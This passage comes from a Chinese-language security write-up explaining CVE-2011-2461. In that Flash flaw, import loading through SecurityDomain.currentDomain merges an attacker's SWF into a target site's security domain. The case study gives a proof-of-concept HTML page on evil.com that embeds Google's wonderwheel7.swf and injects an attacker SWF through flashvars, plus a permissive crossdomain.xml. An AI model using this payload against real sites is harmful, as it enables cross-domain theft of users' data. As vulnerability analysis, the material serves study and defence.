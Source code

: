 ```
 ….
//最终以当前的安全域加载外部模块
    loader.load(r, c);
}

```

以上就是整个代码流程，问题就发生在c.securityDomain = SecurityDomain.currentDomain; 这一句代码上。在Adobe官方手册对于securityDomain的解释上(6)，可以看到这样一段描述（非直译）： “同域情况下，即当1.com的FLASH A文件加载1.com下的FLASH B文件，B文件与A文件具有相同的安全域；而跨域情况下，即当1.com的FLASH A文件加载2.com下的FLASH B文件时，则会有两种选择：一种是默认情况下加载，此时B文件具有与A文件不同的安全域，换言之，两者是隔离的；另一种方法则是通过特定的函数调用或者特定属性的设置让被加载的B文件具有和A相同的安全域，这种加载方式被称为“导入式加载（import loading）”。 导入式加载通常有两种方法：一种是通过Loader的loadBytes函数。在context为默认值时，loadBytes将会把内容导入到当前的安全域内。其函数形式如下：

```
loadBytes(bytes:ByteArray, context:LoaderContext = null):void

```

另一种方法则是通过设置LoaderContext的securityDomain，然后再load，典型代码如下：

```
loaderContext.securityDomain = SecurityDomain.currentDomain;
loader.load(urlReq,loaderContext);

```

可以看出，cve-2011-2461 就是采用了第二种方式来进行了导入式加载。最终就会导致如下图所示的问题，可以看到我们在“黑客.com”的Flash B里编写恶意代码，将会被导入式加载“融入”到“目标.com”的Flash A里，从而可以读取“目标.com”下的内容。

![enter image description here](http://drops.javaweb.org/uploads/images/3b21029fb8cd10044b6e8ab38ab651bf0ec34395.jpg)

0x02 案例分析
=====

其实，知道上面的原理后，再来看google这个案例就不难理解了。首先是`https://www.google.com/wonderwheel/wonderwheel7.swf`

存在本文所说的问题，那么我们可以构造出以下代码

```
（http://evil.com/poc/test.html）：
     <i>Victim's agenda:</i>
     <textarea id="x" style="width: 100%; height:50%"></textarea>     
<object width="100%" height="100%"     type="application/x-shockwave-flash"     data="https://www.google.com/wonderwheel/wonderwheel7.swf">     
<param name="allowscriptaccess" value="always">
     <param name="flashvars" value="resourceModuleURLs=http://evil.com/poc/URLr_google.swf">     </object>

```

上面这个代码，使得https://www.google.com/wonderwheel/wonderwheel7.swf将会以“导入式加载”的方式将http://evil.com/poc/URLr_google.swf“融入”进来，即URLr_google.swf具有与wonderwheel7.swf相同的安全域。当然要记得在evil.com根目录下放置一个crossdomain.xml允许wonderwheel7.swf来加载它，像这样。

```
<?xml version="1.0"?>     <cross-domain-policy>     <allow-access-from domain="www.google.com" />     </cross-domain-policy>

```
